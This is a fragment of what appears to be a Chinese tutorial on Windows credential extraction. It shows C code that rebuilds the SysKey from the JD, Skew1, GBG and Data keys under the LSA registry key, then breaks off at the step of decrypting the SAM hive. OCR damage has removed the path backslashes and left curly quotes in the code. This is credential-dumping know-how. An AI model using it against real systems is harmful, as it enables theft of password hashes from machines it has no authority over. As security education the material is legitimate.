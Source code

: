         

`HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlLsa`下JD、Skew1、GBG和Data等键值中的内容拼接而成

**获取代码如下：**

    int CRYPT_SyskeyGetValue(s_SYSKEY *pSyskey) {
    
        DWORD dwSecureBoot=0;
    
        BYTE syskey[16];
    
        BYTE syskeyPerm[16]={0x8,0x5,0x4,0x2,0xb,0x9,0xd,0x3,0x0,0x6,0x1,0xc,0xe,0xa,0xf,0x7};
    
        int i;
    
    
    
        if(!RegGetValueEx(HKEY_LOCAL_MACHINE,”SYSTEM\CurrentControlSet\Control\Lsa”,”SecureBoot”,NULL,&dwSecureBoot,sizeof(dwSecureBoot),NULL))
    
            return SYSKEY_REGISTRY_ERROR;
    
    
    
        if(dwSecureBoot != 1)
    
            return SYSKEY_METHOD_NOT_IMPL;
    
    
    
        if(!SyskeyGetClassBytes(HKEY_LOCAL_MACHINE,”SYSTEM\CurrentControlSet\Control\Lsa”,”JD”,syskey))
    
            return SYSKEY_REGISTRY_ERROR;
    
    
    
        if(!SyskeyGetClassBytes(HKEY_LOCAL_MACHINE,”SYSTEM\CurrentControlSet\Control\Lsa”,”Skew1″,syskey+4))
    
            return SYSKEY_REGISTRY_ERROR;
    
    
    
        if(!SyskeyGetClassBytes(HKEY_LOCAL_MACHINE,”SYSTEM\CurrentControlSet\Control\Lsa”,”GBG”,syskey+8))
    
            return SYSKEY_REGISTRY_ERROR;
    
    
    
        if(!SyskeyGetClassBytes(HKEY_LOCAL_MACHINE,”SYSTEM\CurrentControlSet\Control\Lsa”,”Data”,syskey+12))
    
            return SYSKEY_REGISTRY_ERROR;
    
    
    
        for(i=0;i<16;i++)
    
            pSyskey->key[i] = syskey[syskeyPerm[i]];
    
    
    
        return SYSKEY_SUCCESS;
    
        

2、使用syskey解密HKLMSAM

获得
